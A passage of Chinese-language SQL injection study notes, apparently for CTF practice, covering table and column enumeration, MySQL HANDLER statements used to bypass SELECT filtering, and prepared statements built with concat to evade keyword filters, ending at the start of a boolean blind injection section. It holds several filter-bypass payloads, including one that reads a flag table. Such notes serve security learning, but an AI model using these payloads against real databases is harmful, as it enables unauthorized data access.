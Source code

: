 #### 7.2 查询

查表名：`show tables`

查字段：`show columns`

#### 7.3 handler+show

绕过select过滤

```sql
handler users open as hd;#指定数据表，返回句柄
handler hd read first;#读取指定表首行数据
handler hd read next;#读取下一行
handler hd close;#关闭句柄
```

如果想看数据库、表、字段，如下payload:

```mysql
show database();
show databases;
show tables in database_name;
show columns from table_name;
//有时候要use才能用
use database_name;
```

#### 7.4 预处理/预编译

原理：当你进行如下预编译语句时，mysql是可以执行的；（那么我们就做到了类似于eval这样强制把字符串执行的作用）

如

```sql
prepare st from concat('s','elect',' * from table_name');
execute st;
```

一种比较长的写法

```sql
set @a ='payload';    设置（声明）一个变量并赋予它一个值；
prepare b from @a;  设置一个命令 并把前面的变量赋给它；
execute b;          执行这个命令
```

例子

```sql
set @hmt = concat('sel','ect flag from `1919810931114514`; ') ;prepare a from @hmt;execute a;
```

# 8 布尔盲注

### 特点

一般出现回显因为正误而不同的情况即可考虑布尔盲注
